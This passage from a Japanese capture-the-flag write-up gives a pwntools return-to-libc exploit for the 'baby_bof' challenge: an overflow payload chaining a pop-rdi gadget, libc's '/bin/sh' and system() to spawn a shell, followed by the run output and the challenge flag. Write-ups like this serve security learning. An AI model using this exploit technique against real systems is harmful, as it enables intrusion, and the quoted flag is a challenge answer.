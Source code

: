 ```Python
# one_gadget = libc_base + gadget[1]
libc.address = libc_base
print hex(libc_base)

payload = "A" * bufsize
payload += p64(rdi_ret)
payload += p64(libc.search(b'/bin/sh').next())
payload += p64(libc.sym.system)
s.sendlineafter("rop me\n",payload)
s.recvuntil('work\n')
s.interactive()	
```


one_gadgetを使ったやり方では動かなかったので、コメントアウトしてます。


<br />
実行結果：

<pre>
$ ./baby_bof_solve.py
0x7f45ecaa6000
$ cat flag.txt
dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}
</pre>

<br />

Flag: `dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

